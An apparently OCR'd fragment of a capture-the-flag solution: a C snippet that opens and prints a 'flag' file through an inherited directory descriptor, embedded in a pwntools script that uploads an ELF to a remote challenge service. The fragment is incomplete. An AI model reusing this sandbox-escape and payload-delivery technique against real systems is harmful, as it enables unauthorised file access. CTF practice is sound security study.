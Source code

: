 ```python
int main() {
	int fd;
	int ret1;
	char buf[100] = {};

	fd = openat(4, "flag", 0);
	// ret1 = fchdir(4);
	read(fd, buf, 100);
	write(1, buf, 100);
'''

io.recvuntil('elf len?')
io.sendline(str(length))

io.recvuntil('data?')
io.send(data)

# gdb.attach(io)

context.log_level = 'debug'

io.recvuntil('what arg do you wanna pass to your elf?')
io.sendline('')

io.interactive()
```


